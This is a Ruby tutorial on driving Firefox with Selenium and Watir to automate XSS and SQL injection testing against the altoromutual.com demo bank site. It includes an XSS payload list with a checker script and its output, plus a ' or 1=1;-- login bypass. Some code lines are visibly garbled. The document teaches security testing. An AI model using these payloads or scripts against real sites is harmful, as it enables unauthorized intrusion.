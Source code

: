 # Browser Manipulation 
As a hacker, sometimes you need to automate your client side tests (ex. XSS) and reduce the false positives that happen specially in XSS tests. The traditional automation depends on finding the sent payload been received in the response, but it doesn't mean the vulnerability get really exploited so you have to do it manually again and again.

Here we'll learn to make ruby control our browser in order to **emulate** the same attacks from browser and get the real results.

The most known APIs for this task are ***Selenium*** and ***Watir*** which support most know web browsers currently exist.

## Selenium Webdriver
[**Selenium**](https://github.com/seleniumhq/selenium) is an umbrella project encapsulating a variety of tools and libraries enabling web browser automation.

- To install selenium gem
```
gem install selenium-webdriver
```


### GET Request 
```ruby
#!/usr/bin/env ruby
#
#
require "selenium-webdriver"

# Profile Setup and Tweak 
proxy = Selenium::WebDriver::Proxy.newproxy = Selenium::WebDriver::Proxy.new(
  :http     => PROXY,
  :ftp      => PROXY,
  :ssl      => PROXY
)       # Set Proxy hostname and port 
profile = Selenium::WebDriver::Firefox::Profile.from_name "default"     # Use an existing profile name 
profile['general.useragent.override'] = "Mozilla/5.0 (compatible; MSIE 9.0; " + 
                                        "Windows Phone OS 7.5; Trident/5.0; " + 
					                    "IEMobile/9.0)"                 # Set User Agentprofile.proxy = proxy                                                   # Set Proxy
profile.assume_untrusted_certificate_issuer = false                     # Accept untrusted SSL certificates 

# Start Driver 
driver = Selenium::WebDriver.for(:firefox, :profile => profile)         # Start firefox driver with specified profile
# driver = Selenium::WebDriver.for(:firefox, :profile => "default")     # Use this line if just need a current profile and no need to setup or tweak your profile
driver.manage.window.resize_to(500, 400)                                # Set Browser windows size
driver.navigate.to "http://www.altoromutual.com/search.aspx?"           # The URL to navigate 

# Interact with elements
element = driver.find_element(:name, 'txtSearch')   # Find an element named 'txtSearch'
element.send_keys "<img src=x onerror='alert(1)'>"  # Send your keys to element
element.send_keys(:control, 't')                    # Open a new tab
element.submit                                      # Submit the text you've just sent
```


> Note that the actual keys to send depend on your OS, for example, Mac uses `COMMAND + t`, instead of `CONTROL + t`.


### POST Request 
```ruby
#!/usr/bin/env ruby
#
#
require 'selenium-webdriver'

browser = Selenium::WebDriver.for :firefox
browser.get "http://www.altoromutual.com/bank/login.aspx"

wait = Selenium::WebDriver::Wait.new(:timeout => 15)		# Set waiting timeout
# Find the input elements to interact with later.
input = wait.until {
  element_user = browser.find_element(:name, "uid")
  element_pass = browser.find_element(:name, "passw")
  # Retrun array of elements when get displayed
  [element_user, element_pass] if element_user.displayed? and element_pass.displayed?
}

input[0].send_keys("' or 1=1;--")   # Send key for the 1st element 
input[1].send_keys("password")      # Send key fro the next element
sleep 1

# Click/submit the button based the form it is in (you can also call 'btnSubmit' method)
submit = browser.find_element(:name, "btnSubmit").click #.submit

# browser.quit
```


Let's test the page against XSS vulnerability. First I'll list what kind of action we need from browser

1. Open a browser window (Firefox)
2. Navigate to a URL (altoromutual.com)
3. Perform some operations (Send an XSS payload)
4. Check if the payload is working(Popping-up) or it's a false positive 
5. Print the succeed payloads on terminal

**selenium-xss.rb**
```ruby
#!/usr/bin/env ruby
#
#
require 'selenium-webdriver'

payloads = 
  [ 
    "<video src=x onerror=alert(1);>",
    "<img src=x onerror='alert(2)'>",
    "<script>alert(3)</script>",
    "<svg/OnlOad=prompt(4)>",
    "javascript:alert(5)",
    "alert(/6/.source)"
  ]

browser = Selenium::WebDriver.for :firefox
browser.manage.window.resize_to(500, 400)
browser.get "http://www.altoromutual.com/search.aspx?"

wait = Selenium::WebDriver::Wait.new(:timeout => 20)

payloads.each do |payload|
  input = wait.until do
      element = browser.find_element(:name, 'txtSearch')
      element if element.displayed?
  end
  input.send_keys(payload)
  input.submit
  
  begin 
    wait.until do 
      txt = browser.switch_to.alert
      if (1..100) === txt.text.to_i
	    puts "Payload is working: #{payload}"
	    txt.accept 
      end
    end
  rescue Selenium::WebDriver::Error::NoAlertOpenError
    puts "False Positive: #{payload}"
    next
  end
  
end

browser.close
```

Result
```
> ruby selenium-xss.rb
Payload is working: <video src=x onerror=alert(1);>
Payload is working: <img src=x onerror='alert(2)'>
Payload is working: <script>alert(3)</script>
Payload is working: <svg/OnlOad=prompt(4)>
False Positive: javascript:alert(5)
False Positive: alert(/6/.source)
```



## Watir Webdriver
[**Watir**](http://watirwebdriver.com/) is abbreviation for (Web Application Testing in Ruby). I believe that Watir is more elegant than Selenium but I like to know many ways to do the same thing, just in case. 

- To install watir gem
```
gem install watir-webdriver
```


### GET Request 

```ruby
#!/usr/bin/env ruby
#
#
require 'watir-webdriver'

browser = Watir::Browser.new :firefox
browser.goto "http://www.altoromutual.com/search.aspx?"
browser.text_field(name: 'txtSearch').set("<img src=x onerror='alert(1)'>")
btn = browser.button(value: 'Go')
puts btn.exists?
btn.click

# browser.close
```

### POST Request 

```ruby
#!/usr/bin/env ruby
#
#
require 'watir-webdriver'

browser = Watir::Browser.new :firefox
browser.window.resize_to(800, 600)
browser.window.move_to(0, 0)
browser.goto "http://www.altoromutual.com/bank/login.aspx"
browser.text_field(name: 'uid').set("' or 1=1;-- ")
browser.text_field(name: 'passw').set("password")
btn = browser.button(name: 'btnSubmit').click 

# browser.close
```

> - Since Waiter is integrated with Selenium, you can use both to achieve one goal 
> - For Some reason in some log-in cases, you may need to add a delay time between entering username and password then submit.



## Selenium, Watir Arbitrary POST request






<br><br><br>
---
- [Selenium official documentations](http://docs.seleniumhq.org/docs/)
- [Selenium Cheat Sheet](https://gist.github.com/kenrett/7553278) 
- [Selenium webdriver vs Watir-webdriver in Ruby](http://watirmelon.com/2011/05/05/selenium-webdriver-vs-watir-webdriver-in-ruby/)
- [Writing automate test scripts in Ruby](https://www.browserstack.com/automate/ruby)
- [Selenium WebDriver and Ruby](https://swdandruby.wordpress.com/)
- [The Selenium Guidebook - Commercial ](https://seleniumguidebook.com/)
- [Watir WebDriver](http://watirwebdriver.com/)
- [Watir Cheat Sheet](https://github.com/watir/watir/wiki/Cheat-Sheet)